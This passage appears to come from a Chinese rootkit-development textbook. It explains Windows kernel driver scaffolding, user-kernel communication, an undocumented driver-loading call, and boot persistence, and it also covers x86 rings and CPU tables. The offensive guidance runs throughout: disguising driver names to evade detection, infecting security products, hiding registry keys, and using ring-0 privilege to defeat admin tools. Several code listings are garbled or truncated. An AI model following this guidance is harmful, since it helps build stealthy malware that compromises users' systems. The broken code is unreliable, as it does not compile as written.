二类特殊的设备是磁盘，磁盘具有随机读写的能力，尽管其随机读写的性能比顺序读写要差很多。通常，磁盘的驱动程序负责操纵磁盘控制器，以便从磁盘中读数据或者向磁盘上写入数据，但磁盘上的数据如何有效地组织起来以便不同的应用程序可以共享同一个磁盘，这一任务是由文件系统（file system）来完成的。在绝大多数操作系统中，文件系统是不可缺少的，它通过一个树状名字空间来管理磁盘上的存储空间，允许应用程序通过名称来访问磁盘上的数据。这种结构奠定了现代计算机的信息存储系统的基础。

共同目标：为应用软件提供单一、一致的设备访问接口。这些核心服务控制对设备的文件系统、网络接口、键盘、鼠标以及视频/LCD显示器进行访问。OS的另一种功能是提供关于系统的调试和诊断信息。例如，大多数操作系统能够列出正在运行的或已安装的软件。大多数OS都提供日志机制，因此应用程序可以报告自身发生崩溃的时刻、登录失败的时刻等等。尽管编写能够绕过OS的应用程序（通过未在文档中公开的、直接访问的方法）是可能的，但大多数开发人员不会这样做。OS提供了“官方的”访问机制，并且通常地说，单纯使用OS的机制要容易得多。这就是几乎所有应用都使用OS所提供的服务之缘由，也正是rootkit会影响几乎所有软件的原因所在。

所以，应用程序实际上工作在操作系统提供的抽象层上，它无需管理系统的硬件设备和资源，但必须使用操作系统提供的机制或语义来实现其自身的功能逻辑。这也暗示着，操作系统在某种程度上决定了上层应用程序应该如何使用它所提供的服务才是最有效和方便的；同时，应用程序也有足够的灵活性来完成其自身的上层功能。这就形成了在同一个操作系统上存在大量风格迥异的应用程序的局面，并且，由于不同操作系统提供的抽象层在概念上有一定的互通性，所以，很多应用软件能够便捷地从一个操作系统平台移植到另一个上。

### 3.2 基本架构

攻击者通常设计rootkit来影响特定的OS和软件集合。若将rootkit设计成直接访问硬件，则它只能局限于该特定硬件。rootkit可以遍用于一种OS的不同版本，但仍受限于特定的OS家族。例如，一些公开的rootkit可以影响到全部Windows NT、Windows 2000和Windows XP，但只有当一种OS的所有风格都具有类似的数据结构和行为时才是可能的。例如，创建一个能够感染Windows和Solaris两种系统的通用rootkit的可行性是非常小的。rootkit可以利用多个内核模块或驱动程序。例如，攻击者可以使用某个驱动程序来处理所有的文件隐藏操作，使另一个驱动程序来隐藏注册表键。有时将代码分散在多个驱动程序也可是一个好方法，这有助于将代码保持更加隐蔽。rootkit的核心是提供一种方法来修改操作系统的行为，从而使它能够隐藏攻击者的文件、进程、网络连接以及其他资源。rootkit设计成直接访问硬件的可能性很小，而大多数rootkit设计成使用操作系统提供的机制。

的——只要每个驱动程序具有特定用途。

复杂的rootkit可能包含许多组件，一个复杂的rootkit可以使用如下的目录结构：

#### /My Rootkit

#### /src/File Hider

> 一个系统只安装一个rootkit。对于任何系统来说，一个rootkit就应该足够了。rootkit具有侵略性，会更改系统上的数据。尽管攻击者通常将这种侵略性改动限制为最小，但安装多个rootkit可能会导致对改动部分再进行改动，从而引起损害。rootkit在大多数情况下假定系统是干净的，它可以执行对反黑客软件（例如表面防火墙）的检查，但通常不会检查其他rootkit。若发现系统上已经安装了另一个rootkit，攻击者最好的策略也许是“放弃”（即由于出错而停止执行）。

隐藏文件的代码可能会很复杂，它应该包含在自身的源代码文件集合之中。文件隐藏技术有多种，其中一些可能需要大量代码来实现。例如，有些文件隐藏技术要求钩住（hook）大量的函数调用。每个钩子都使了相当多的源代码。

#### /src/Networks Ops

在Windows系统上的网络操作需要NDIS和TDI代码。这些驱动程序可能会比较庞大，它们有时链接到外部库上，将这些特征限制在它们自身的源文件中是合适的。

#### /src/Registry Hider

注册表隐藏操作的方法可能不同于文件隐藏特性。它可能会涉及许多钩子，也可能需要跟踪许多句柄表或句柄列表。实际上，注册表键和键值相互关联的方式导致注册表键的隐藏存在着问题。因此一些rootkit开发者对该问题精心设计了非常复杂的解决方案。这类特性也应该限制在它自身的源文件集合之中。

#### /src/Process Hider

进程隐藏应该使用直接内核对象操作(Direct Kernel Object Manipulation, DKOM)技术。这些文件可能包含反向工程的数据结构以及其他信息。

当计算机重启后，大多数rootkit也需要要重新启动。攻击者在此处提供一个微型服务，用于在系统引导时“发动”rootkit。使得rootkit随计算机一起重启是一个难题。虽然简单修改注册表键就能够导致在系统引导时启动文件，但是这种方法很容易被检测到。一些rootkit开发者设计了复杂的引导功能，包括磁盘上内核补丁以及修改系统引导加载程序。

#### /inc

该目录下包含公共的被包含文件，其中含有类型定义、枚举以及I/O Control(IOCTL)代码。这些文件通常被其他所有文件共享，因此应该位于自己的专有空间之中。

#### /bin

该目录下包含所有编译后的文件。

#### /lib

由于编译器自身的库集合位于其他目录，因此攻击者可以在该目录下存储自己的附加库或第三方库。

### 3.3 在内核中引入代码

将代码植入内核中的直接方式是使用可加载模块（有时称为设备驱动程序或内核驱动程序）。大多数现代操作系统都允许加载内核扩展模块，以便第三方硬件如存储系统、显卡、主板和网络硬件的制造商能够添加对自己产品的支持。操作系统通常都提供了关于将驱动程序引入内核中的文档和支持。

正如其名称所示，设备驱动程序通常是用于设备的。然而，通过驱动程序可以引入任何代码。一旦拥有了在内核中运行的代码，就能够完全访问内核和系统进程的全部特权内存空间。通过内核级访问，可以修改计算机上的所有软件代码和数据结构。

典型的模块结构包含一个入口点，有时还含有清理例程。例如，Linux的可加载模块结构类似于以下形式：

```
int init_module(void)
{
}
void cleanup_module(void)
{
}
```

在某些情况下，例如对于Windows设备驱动程序，入口点必须注册函数回调。其模块结构类似于以下形式：

```
NTSTATUS DriverEntry (...)
{
    theDriver->DriverUnload = MyCleanupRoutine;
}
NTSTATUS MyCleanupRoutine()
{
}
```

清理例程并非总是必要的，因此Windows设备驱动程序将其设置为可选项。在希望卸载驱动程序时才需要清理例程。在许多情况下，rootkit在置入系统之后可以驻留其中，无需卸载。但在开发过程中包含一个卸载例程是有用的，因为在rootkit的改进过程中可能需要加载最新的版本。

### 3.4 构建Windows设备驱动程序

第一个示例设计成运行于Windows XP和Windows 2000平台上的一个简化的设备驱动程序。它还不是真正的rootkit只是简单的“hello world”设备驱动程序。

```c
#include "ntddk.h"

NTSTATUS DriverEntry( IN PDRIVER_OBJECT theDriverObject,
    IN PUNICODE_STRING theRegistryPath )
{
    DbgPrint ( "Hello World ! " );
    return STATUS_SUCCESS;
}
```

上述代码看起来很简单，将其加载到内核中，调试语句会显示此信息。我们的rootkit示例由多项内容构成，以下各节分别对其进行介绍。

#### 3.4.1 设备驱动程序开发工具包

为了构建我们的Windows设备驱动程序，需要驱动程序开发工具包（Driver Development Kit，DDK）。各个Windows版本的DDK可从微软公司得到。有时需要Windows 2003版本的DDK，可以使用这个DDK版本来构建Windows 2000、Windows XP和Windows 2003的驱动程序。

#### 3.4.2 构建环境

DDK提供了两种不同的构建环境：检查(checked)构建和自由(free)构建环境。在开发设备驱动程序时使用检查构建环境，对于发行代码则使用自由构建环境。检查构建将调试检查信息编译到驱动程序中，所生成的驱动程序比自由构建版本大得多，大部分开发工作都应该使用检查构建，只有在测试最终产品时才切换到自由构建。

#### 3.4.3 文件

驱动程序源代码使用C语言编写，文件的扩展名是“.c”。为了开发第一个项目，先生成一个空目录（建议为C:\myrootkit），将mydriver.c文件置入其中。然后将前述

的“hello world”设备驱动程序代码复制到该文件中。还需要SOURCES文件和MAKEFILE文件。

##### （1）SOURCES文件

该文件应命名为全部由大写字母组成的SOURCES，没有扩展名。SOURCES文件应该包含以下代码：

```
TARGETNAME=MYDRIVER
TARGETPATH=OBJ
TARGETTYPE=DRIVER
SOURCES=mydriver.c
```

TARGETNAME变量控制驱动程序的命名。该名称可能会嵌入到二进制文件中，因此TARGETNAME不应采取诸如MY_EVIL_ROOTKIT_IS_GONNA_GET_YOU之类的名称。即使以后重新命名该文件，但上述字符串仍可能存在于二进制文件之中，从而被发现。

更好的驱动程序命名方法是使其看上去类似于合法的设备驱动程序，例如MSDIRECTX、MSVID_H424、IDE_HD41、SOUNDMGR以及H323FON。

计算机上已经加载了许多设备驱动程序，有时只需通过检查这些现有驱动程序的列表并且对它们的名称略加变化，就可以得到极好的方案。

TARGETPATH变量通常设成OBJ，它控制文件在编译时的存储位置，驱动文件通常会放置在当前目录的objchk_xxx/i386子目录下。

TARGETTYPE变量控制所编译的文件类型，创建驱动程序要使用DRIVER类型。

在SOURCES语句行上列出.c文件列表，若使用多行的话，则需要在每行（除了最后一行）结尾处放置“\”符号。例如：

```
SOURCES= myfile1.c \
    myfile2.c \
    myfile3.c
```

注意在最后一行没有以反斜线字符结尾。

INCLUDES变量是可选的，它指定了include文件所在的多个目录。例如：

```
INCLUDES= c:\my_includes \
    ..\..\inc.\
    c:\other_includes
```


# 第3章 驱动程序

若需要将库链接进来，则使用TARGETLIBS变量。设置卸载例程并不难，先需要创建一个卸载函数，然后设置卸载指针。一些rootkit驱动程序使用NDIS库，因此该行类似于以下形式：

```
TARGETLIBS=$(BASEDIR)\lib\w2k\1386\ndis.lib
TARGETLIBS=$(DDK_LIB_PATH)\ndis.lib
```

在构建NDIS驱动程序时，可能需要在自身系统上寻找ndis.lib文件，并对到达该文件的路径进行硬编码。

$(BASEDIR)变量指定了DDK的安装目录。$(DDK_LIB_PATH)指定了默认库的安装位置。路径的其余部分根据所用的系统和DDK版本而有所区别。

## （2）MAKEFILE文件

最后创建一个名称全部由大写字母组成且没有扩展名的MAKEFILE文件。它的代码行上应包含以下内容：

```
!INCLUDE $(NTMAKEENV)\makefile.def
```

## （3）运行build实用程序

生成了MAKEFILE、SOURCES和.c文件之后，剩下的全部工作就是在DDK中启动检查构建环境，它会打开一个命令shell。检查构建环境可以是“开始”菜单的“程序”中Windows DDK图标组之下的一个链接。打开了构建环境的命令shell后，将当前目录改为驱动程序目录，并输入命令“build”。理想情况下，不会出现任何错误，此时就得到了我们的第一个驱动程序。

一个提示：要确保驱动程序目录所在位置的完整路径名中不包含任何空格。例如，可以将驱动程序放在c:\myrootkit中。

## （4）卸载例程

在创建驱动程序时，将theDriverObject参数传递给驱动程序的主函数。它指向一个包含函数指针的数据结构。这些函数指针之一称为“卸载例程”。若设置了卸载例程，这意味着可以从内存中卸载驱动程序。若不设置该指针的话，则驱动程序可以加载，但不会卸载。需要重启机器以便从内存中删除驱动程序。

当为驱动程序继续开发功能时，需要多次对其进行加载和卸载。所以应该设置卸载例程，以便每次测试新的驱动程序版本时无需重启。

```
/* BASIC DEVICE DRIVER */
#include <ntddk.h>

VOID OnUnload(IN PDRIVER_OBJECT DriverObject)
{
    DbgPrint("Goodbye from the unload function\n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject,
                     IN PUNICODE_STRING RegistryPath)
{
    DriverObject->DriverUnload = OnUnload;
    DbgPrint("Hello from the driver\n");
    return STATUS_SUCCESS;
}
```

## 3.5 用户模式和内核模式的融合

rootkit很容易同时包含用户模式和内核模式的组件。用户模式部分完成功能，例如联网和远程控制，而内核模式部分则执行潜行和访问。

大多数rootkit都需要内核级别的破坏活动，同时还提供了复杂的特性。由于这些复杂特性可能含有程序缺陷并且还需要使用系统的API库，因此用户模式的方法是首选方法。

用户模式的程序可通过多种方式与内核级驱动程序通信。最常见的一种方式是使用I/O Control（IOCTL）命令。IOCTL命令是可以由程序员定义的命令消息。

### 3.5.1 I/O请求报文

一个需要理解的设备驱动程序概念是I/O请求报文（I/O Request Packet，IRP），它只是包含数据缓冲区的数据结构。为了与用户模式的程序进行通信，Windows设备驱动程序通常需要处理IRP。处于用户模式的程序可以打开一个文件句柄并向其中写入信息。在内核中，这个写入操作表示为一个IRP。因此若用户模式的程序向文件句柄中写入字符串“HELLO DRIVER!”，则内核将会创建一个包含了缓冲区和字符串“HELLO DRIVER!”的IRP。用户模式和内核模式之间的通信可以通过这些IRP进行。

为了操作IRP，内核驱动程序必须包含IRP的处理函数。和卸载例程的安装工作一样，只需在驱动程序对象中设置适当的函数指针：

```c
NTSTATUS OnStubDispatch (IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    Irp->IoStatus.Status=STATUS_SUCCESS;
    IoCompleteRequest (Irp, IO_NO_INCREMENT);
    return STATUS_SUCCESS;
}

VOID OnUnload( IN PDRIVER_OBJECT DriverObject )
{
    DbgPrint("OnUnload called\n");
}

NTSTATUS DriverEntry( IN PDRIVER_OBJECT theDriverObject, IN PUNICODE_STRING theRegistryPath )
{
    int i;
    theDriverObject->DriverUnload = OnUnload;
    for(i=0;i< IRP_MJ_MAXIMUM_FUNCTION; i++)
    {
        theDriverObject->MajorFunction[i] = OnStubDispatch;
    }
    return STATUS_SUCCESS;
}
```

在实际的驱动程序中，很可能会为每个主函数都创建一个单独的函数。例如，假定要处理READ和WRITE事件。当用户模式的程序使用驱动程序句柄来调用ReadFile或WriteFile时，会激活这些事件。更完整的驱动程序还会处理其他功能，例如关闭文件或发送IOCTL命令等，下面给出了主函数指针的一组示例：

```c
DriverObject->MajorFunction[IRP_MJ_CREATE] = MyOpen;
DriverObject->MajorFunction[IRP_MJ_CLOSE] = MyClose;
DriverObject->MajorFunction[IRP_MJ_READ] = MyRead;
DriverObject->MajorFunction[IRP_MJ_WRITE] = MyWrite;
DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = MyIoControl;
```

对于每个被处理的主函数，驱动程序都需要指定一个将要调用的函数。例如，驱动程序可能包含以下函数：

```c
NTSTATUS MyOpen(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp )
{
    // do something
    ...
    return STATUS_SUCCESS;
}

NTSTATUS MyClose(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    // do something
    ...
    return STATUS_SUCCESS;
}

NTSTATUS MyRead(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp )
{
    // do something
    ...
    return STATUS_SUCCESS;
}

NTSTATUS MyWrite(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp )
{
    // do something
    ...
    return STATUS_SUCCESS;
}

NTSTATUS MyIOControl(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp )
{
    PIO_STACK_LOCATION IrpSp;
    ULONG FunctionCode;

    IrpSp = IoGetCurrentIrpStackLocation (Irp);

    FunctionCode = IrpSp->Parameters.DeviceIoControl.IoControlCode;
    switch (FunctionCode)
    {
        // do something
    }

    return STATUS_SUCCESS;
}
```

### 3.5.2 创建文件句柄

另一个需要理解的概念是文件句柄。为了从用户模式的程序中使用内核驱动程序，用户模式的程序必须打开一个驱动程序句柄。这只有当驱动程序已经注册了一个指定的设备之后才能进行。一旦注册完成，用户模式的程序就可以将指定设备像文件一样打开。这非常类似于许多UNIX系统上的设备工作方式——将所有设备都像文件一样对待。

对于我们的示例，内核驱动程序使用下面的代码来注册设备：

```c
const WCHAR deviceNameBuffer[] = L"\\Device\\MyDevice";
PDEVICE_OBJECT g_rootkitDevice; //Global pointer to our device object
NTSTATUS DriverEntry ( IN PDRIVER_OBJECT DriverObject,
                       IN PUNICODE_STRING RegistryPath )
{
    NTSTATUS ntStatus;
    UNICODE_STRING deviceNameUnicodeString;
    // Set up our name and symbolic link
    RtlInitUnicodeString (&deviceNameUnicodeString, deviceNameBuffer);
    // Set up the device.
    ntStatus = IoCreateDevice ( DriverObject,
                                0, // For driver extension
                                &deviceNameUnicodeString,
                                0x00001234,
                                0,
                                TRUE,
                                &g_rootkitDevice );
```

在上述的代码片段中，DriverEntry例程创建了一个名为MyDevice的设备，注意在函数调用中使用了完全限定(fully qualified)路径：

```c
const WCHAR deviceNameBuffer [] = L"\\Device\\MyDevice";
```

前缀“L”表示以UNICODE编码定义字符串，这是API调用所需的。一旦创建了设备，用户模式的程序可以将其像文件一样打开：

```c
hDevice = CreateFile ( "\\\\.\\Device\\MyDevice",
                       GENERIC_READ | GENERIC_WRITE,
                       0,
                       NULL,
                       OPEN_EXISTING,
                       FILE_ATTRIBUTE_NORMAL,
                       NULL
                     );
if ( hDevice == ((HANDLE) -1) )
    return FALSE;
```

一旦打开了文件句柄，它就可以在用户模式的函数如ReadFile和WriteFile 中充当参数，也可以用于进行IOCTL调用，这些操作会导致生成要在驱动程序中处理的IRP。

从用户模式中很容易打开和使用文件句柄，下面分析如何通过符号链接使文件句柄更加易用。

### 3.5.3 添加符号链接

第三个关于设备驱动程序的重要概念是符号链接，为了便于用户模式的程序打开文件句柄，一些驱动程序使用了符号链接，这个步骤不是必需的，却是有益的；符号名更便于记忆。这种驱动程序会创建一个设备，然后调用 `IoCreateSymbolicLink` 来创建符号链接，有些 rootkit 采用了这种技术。

```c
const WCHAR deviceLinkBuffer[] = L"\\DosDevices\\\\Vicesys2";
const WCHAR deviceNameBuffer[] = L"\\Device\\MyDevice";
NTSTATUS DriverEntry(_In_ PDRIVER_OBJECT DriverObject,
                     _In_ PUNICODE_STRING RegistryPath)
{
    NTSTATUS ntStatus;
    PUNICODE_STRING deviceNameUniCodeString;
    UNICODE_STRING deviceLinkUniCodeString;
    CodeString;

    // Set up our name and symbolic link.
    RtlInitUnicodeString(&deviceNameUniCodeString, CodeString);
    RtlInitUnicodeString(&deviceLinkUniCodeString, deviceLinkBuffer);

    // Set up the device
    ntStatus = IoCreateDevice(DriverObject,
                              0,
                              &deviceNameUniCodeString,
                              FILE_DEVICE_ROOTKIT,
                              0,
                              FALSE,
                              &deviceObject);

    if (NT_SUCCESS(ntStatus)) {
        ntStatus = IoCreateSymbolicLink(&deviceLinkUniCodeString,
                                        &deviceNameUniCodeString);
    }

    return ntStatus;
}
```

```c
// IoCreateDevice(...)
IoCreateDevice(...);

GENERIC_READ | GENERIC_WRITE,
0,
OPEN_EXISTING,
FILE_ATTRIBUTE_NORMAL,
NULL,
return FALSE;
```

在创建了符号链接之后，用户模式的程序可以使用符号 `\\.\MyDevice` 来打开设备句柄。是否创建符号链接实际上并不重要，它只是使得用户模式的代码更容易找到驱动程序，但这不是必需的。

前面已经讨论了如何使用文件句柄在用户模式和内核模式之间进行通信，下面介绍如何加载设备驱动程序。

## 3.6 加载 rootkit

不可避免地，需要从用户模式的程序中加载驱动程序。例如，在侵入计算机系统时会希望复制某个部署程序，该程序在运行时将 rootkit 加载到内核中。加载程序通常会将 .sys 文件的副本解压缩到硬盘上，然后发出命令将其加载到内核中。当然，要使得这些操作有效，程序必须以“管理员”权限运行。将驱动程序加载到内核中有许多方式。这里具体介绍两种有效的方法：草率方式（“quick and dirty”）和正确方式（“The Right Way”）。

### 3.6.1 草率方式

通过未在文档中说明的 API 调用，可以在无须创建任何注册表键的情况下将驱动程序加载到内核中。该方法的问题在于驱动程序是可分页的，可分页的是指可以交换到磁盘上的内存。若驱动程序是可分页的，则它的任何组成部分都可以页交换出（即从内存交换到磁盘上）。有时当内存被页交换出时，就再无法访问它，会导致对其进行访问会导致一种声名狼藉的系统崩溃——蓝屏死机（Blue Screen of Death，BSOD）。这种加载方法真正安全的唯一方法是围绕分页问题专门对其进行设计。

rootkit.com网站上得到。migbot非常简单，它将全部操作代码都复制到不分页的内存池中，因此驱动程序是分页的这个事实不会影响migbot所执行的动作。

migbot的源代码可以从网址www.rootkit.com/vault/hoglund/migbot.zip下载。

加载方法通常称为SYSTEM LOAD AND CALL IMAGE，因为这是在文档中未说明的API调用的名称，migbot-loader的加载代码如下所示：

```c
// load a .sys file as a driver using undocumented method

bool load_sysfile()
{
    SYSTEM_LOAD_AND_CALL_IMAGE GregsImage;
    WCHAR daPath[] = L"\\??\\C:\\MIGBOT.SYS";

    ///////////////////////////////////////

    // get DLL entry points

    if (!(RtlInitUnicodeString = (RTLINITUNICODESTRING)
            GetProcAddress(GetModuleHandle("ntdll.dll"),
            "RtlInitUnicodeString")))
    {
        return false;
    }
    if (!(ZwSetSystemInformation = (ZWSETSYSTEMINFORMATION)
            GetProcAddress(
            GetModuleHandle("ntdll.dll"),
            "ZwSetSystemInformation")))
    {
        return false;
    }

    RtlInitUnicodeString(&(GregsImage.ModuleName), daPath);

    if (!NT_SUCCESS(
            ZwSetSystemInformation(
            SystemLoadAndCallImage,
            &GregsImage,
            sizeof(SYSTEM_LOAD_AND_CALL_IMAGE))))
    {
        return false;
    }

    return true;
}
```

上述代码在用户模式下运行，所用的.sys文件是C:\migbot.sys。

migbot没有提供卸载特性。加载它之后，只有在系统重启时才能卸载它。可以将其看作是“发后不理”(fire-and-forget)操作。该方法的优点是它比完备的协议更加隐秘，缺点在于它使得rootkit的设计复杂化。对于migbot来说，这是一种好的解决方法；但对于具有许多钩子的复杂rootkit来说，支持该方法需要太多的开销。

### 3.6.2 正确方式

已建立的驱动程序正确加载方法是使用服务控制管理器(Service Control Manager, SCM)，使用SCM需要创建注册表键，当驱动程序通过SCM加载时，它是不可分页的。这意味着回调函数、IRP处理函数以及其他重要代码将不会从内存中消失，不会被页换出，也不会导致蓝屏死机，这是一个好的特性。

下面的示例代码通过SCM方法基于名称来加载任意驱动程序。它注册并启动驱动程序。您可以根据自身意愿在自己的加载程序中引用该代码：

```c
bool _util_load_sysfile(char *theDriverName)
{
    char aPath[1024];
    char aCurrentDirectory[512];
    SC_HANDLE sh=OpenSCManager(NULL, NULL,
        SC_MANAGER_ALL_ACCESS);
    if(!sh)
    {
        return false;
    }
    GetCurrentDirectory(512, aCurrentDirectory);
    _snprintf(aPath,
        1022,
        "%s\\%s.sys",
        aCurrentDirectory,
        theDriverName),
    printf("loading %s, n", aPath);
    SC_HANDLE th = CreateService(sh,
        theDriverName,
        theDriverName,
```

```c
SERVICE_ALL_ACCESS;
SERVICE_KERNEL_DRIVER
SERVICE_DEMAND_START;
SERVICE_ERROR_NORMAL;
gPath
NULL,
NULL,
NULL,
NULL);

if (!h)
{
    if (GetLastError() == ERROR_SERVICE_EXISTS)
        return false;
}

// Service exists
h = OpenService(scm);
if (!h)
{
    // search the drivers
    if (h)
    {
        if (0 == ServiceService(h, 0, NULL))
            return false;
    }
}
```

至此已经学习了两种将驱动程序或rootkit加载到核心内存中的方法，OS的全部权限都已掌握在手。

## 3.7 系统重启后的考验

rootkit驱动程序必须在系统启动时加载。对这个问题进行一般性的考虑时，可以发现系统启动时会加载许多不同的软件组件，只要rootkit与下文中某个启动事件相关联，它也会加载进来。

1. 使用注册表装载“run”（古老的可靠办法）

注册表键“run”（及其派生键）可用于在启动时加载任意程序，它也可以绕过压缩rootkit并加载。rootkit加载后可以“隐藏注册表键‘run’”的值，使得自身无法被检测。所有的病毒扫描器都应检查该键，因此这种方法具有高度风险。然而，一旦加载了rootkit，就可以将该键的值隐藏起来。

2. 使用特洛伊木马或被感染的文件

类似于病毒感染文件的方式，在启动时加载的任何.sys文件或可执行文件都可以被替换，加载程序的代码也可以被插入。具有讽刺意味的是，感染的最佳目标之一就是病毒扫描或安全产品。安全产品通常在系统启动时开始运行，特洛伊木马DLL则可以被插入到搜索路径中，或者其是简单地替换或“感染”现有的DLL。

3. 使用.ini文件

可以修改.ini文件来执行程序，许多程序都具有初始化文件，它们能够在启动时运行命令或指定要加载的DLL，通过这种方式使用的文件示例是win.ini。

4. 注册成为驱动程序

rootkit可以将自身注册为在启动时加载的驱动程序，这需要创建注册表键。一旦加载了rootkit之后，也可以将其隐藏起来。

键隐藏起来。

（5）注册为现有程序的附加件

间谍软件常用的一种方法是向Web浏览应用程序中添加扩展（例如，伪装成搜索栏的形式）。在应用程序加载时也加载了该扩展，这种方法需要启动相应的应用程序，但如果在必须激活rootkit之前能够启动应用程序的话，则该方法对于加载rootkit来说是有效的。它的缺陷是已存在着许多的广告件扫描器，它们可能检测到应用程序的这些扩展。

（6）修改磁盘上的内核

可以直接修改内核并将其保存到磁盘上。对启动引导程序必须进行多处修改，以便内核能够通过校验和的完整性检查。这种方法非常有效，因为内核被永久地修改，并且无须注册驱动程序。

（7）修改启动引导程序

可以修改启动引导程序，在内核加载之前对其打补丁。该方法的优点是对系统进行离线分析时内核文件本身看不出修改。然而，使用恰当的工具仍可以检测到对启动引导程序进行的修改。

启动时加载的方法有许多种，以上仅仅是其中的一部分，只要发挥创造力去思考，一定能想到更好的加载方法。

## 四、硬件相关问题

软件和硬件是形影不离的。没有软件，硬件只是毫无生命力的硅晶体；而没有硬件，软件也无法存在，软件最终控制着计算机，但在表象之下却是由硬件实现了软件代码。

另外，硬件是软件安全的最终实施部件。没有硬件支持，软件将是彻底不安全的，许多资料在介绍软件开发时都不曾提及过底层硬件，这对于企业应用的开发者来说也许已足够，但对于rootkit开发者来说还不行，rootkit开发者需要面对逆向工程问题、手工编码的汇编语言，以及对系统上的软件工具的高技术性攻击，理解底层硬件有助于解决这些难题。

所有的访问控制最终都是由硬件实现的，例如，流行的进程隔离(process separation)概念在Intel x86硬件上通过“环(ring)”机制来实施。若Intel的CPU没有访问控制机制，则所有在系统上执行的软件都会被信任，这意味着任何程序的崩溃都可能导致整个系统随之崩溃，任何程序都能够读写硬件、访问任意文件，或修改其他进程的内存。这听起来很熟悉，即使Intel系列处理器具有访问控制能力的历史已有多年，但是微软公司直到发布Windows NT之后才利用了这些能力。

### 4.1 环0级

Intel x86微芯片系列使用环概念来实施访问控制，环有4个级别：环0是最高权限的，环3是最低权限的。每个环都内部保存为一个数字，微芯片上实际并没有真正的物理环。

Windows操作系统中的所有内核代码都在环0级别上运行。因此，在内核中运行的rootkit也被看作是在环0级别上运行。不在内核中运行的用户模式程序（例如电子制表软件程序）有时称为环3级程序。包括Windows和Linux在内的许多操作系统在Intel x86微芯片上只使用环0和环3，而不使用环1和环2。由于系统中环0的权限最高，能力最强大，因此对于rootkit开发者来说，宣称自己的代码在环0级别上运行是一种自豪的展示。

CPU负责跟踪为软件代码和内存分配环的情况，并在各环之间实施访问限制。通常，每个软件程序都会获得一个环编号，它不能访问任何具有更小编号的环。例如，环3的程序不能访问环0的程序，若环3的程序试图访问环0的内存，则CPU将发出一个中断。在多数情况下，操作系统将不会允许这种访问，该访问尝试甚至会导致攻击程序的终止。

大量代码在幕后控制着这种访问限制，也有一些代码允许程序在特定环境下访问更低编号的环。例如，为了将打印机驱动程序加载到内核中，管理员程序（环0级）需要访问被加载的设备驱动程序（在环0级的内核中）。然而，内核模式的rootkit加载后，它的代码在环0级别上执行，这些访问限制将不再是问题。

许多可能检测到rootkit的工具都作为管理员程序在环3级别上运行，rootkit开发者应该理解如何利用rootkit的权限高于管理工具这个事实。例如，rootkit可以使用该事实来向工具隐藏自身或导致工具失效。另外，rootkit通常是由加载程序来安装，这些加载程序是环3级的应用程序，为了将rootkit加载到内核中，这些加载程序使用了特殊的函数调用，使得它们能够访问环0级别。

除了内存访问限制之外，还存在着其他安全机制。某些指令是具有特权的，只能在环0级使用。这些指令通常用于更改CPU的行为，或者直接访问硬件。例如，下列x86指令只允许在环0级别上：

```
cli —停止中断的处理（在当前CPU上）
sti —启动中断的处理（在当前CPU上）
in —从硬件端口读出数据
out —将数据写入硬件端口
```

在环0级别上执行rootkit有许多好处，这样的rootkit不仅能够操纵硬件，还能够操纵其他软件的运行环境，这对于在计算机上进行潜行操作是关键的。在讨论了CPU如何实施访问控制之后，下面分析CPU如何对重要数据进行跟踪。

### 4.2 CPU表和系统表

CPU除了负责跟踪环的信号之外，还负责制定其他许多决策。例如，CPU必须决定当中断发生、软件程序崩溃、硬件发出注意信号、用户模式的程序试图与内核模式的程序通信，以及多线程程序切换线程时需要执行的动作。显然，操作系统代码必须处理这类事情，但总是CPU最先处理它们。

对于每个重要事件，CPU必须指出处理该事件所用的软件例程。由于所有软件例程都存在于内存中，因此CPU有必要存储重要软件例程的地址。更具体地，CPU需要知道在什么位置可以找到重要软件例程的地址。CPU内部无法存储所有地址，因此它必须对其取值进行查询，这个操作通过地址表完成。当中断等事件发生时，CPU在一个表中查询该事件，并寻找处理该事件的某个软件的相应地址，CPU需要的唯一信息是这些表在内存中的基地址。

有许多重要的CPU表，包括：

- 全局描述符表（Global Descriptor Table，GDT），用于映射地址。
- 本地描述符表（Local Descriptor Table，LDT），用于映射地址。
- 页目录（Page Directory），用于映射地址。
- IDT中断描述符表（Interrupt Descriptor Table，IDT），用于寻找中断处理程序。

除了CPU表之外，操作系统本身也保存一批表。CPU不直接支持这些由OS实现的表，因此OS通过特殊功能和代码来管理它们。其中一个重要的表是：

系统服务调度表（System Service Dispatch Table，SSDT）

Windows OS用于处理系统调用。这些表具有多种使用方式，以下各节介绍这些表并分析它们是如何工作的，并且针对rootkit开发者为了提供潜行操作或捕获数据如何修改或钩住这些表给出了一些建议。

内存地址0x00401122的内容为“GREG”，而另一个进程读出同一内存地址的内容可以为“JAMIE”，每个进程都有唯一的内存“视图”。

访问控制机制作用于内存页面，继续使用关于图书馆的比喻，假设CPU是一个专横的图书管理员，进程只能读查着馆内的数本书。为了读出或写入内存，进程首先必须为正在处理的内存找到正确的“图书”，然后找到精确的“页码”，若CPU不批准所请求的图书或页面，则该访问被拒绝。

通过这种方式寻找页面的查询过程是耗时且复杂的，这个过程中多个阶段实施了访问控制。首先，CPU检查进程是否能够打开正在被处理的图书（描述符检查），然后CPU检查进程是否能够读出书中的特定章节（页目录检查），最后CPU检查进程是否能够读出该章节中的特定页（页目录检查），这是相当巨大的工作量。

进程只有通过了所有的安全检查，才可以读出某个页面。即使CPU检查都通过，但页面还可能被标记为只读属性。这意味着进程能够读出页面，但是无法向其中写入。数据的完整性通过这种方式得以维护，rootkit开发者就像图书管理员的野蛮人一样，试图在所有这些书上胡乱涂写，因此我们必须尽可能地掌握关于操作访问控制的知识。

### 4.3 内存页

全部内存都划分成页，如同在一本书中一样。一个页面只能存储固定数目的字节，每个进程都可以拥有一个单独的查询表来寻找这些内存页。将内存想象为一个巨大的图书馆，其中每个进程都单独拥有自己的卡片目录以进行查询，不同的查询表会导致每个进程查看的内存视图完全不同。因此，一个进程可以读出页面的内容，而另一个进程则不能。

#### 4.3.1 内存访问检查

为了访问内存页面，x86处理器依次执行以下检查。

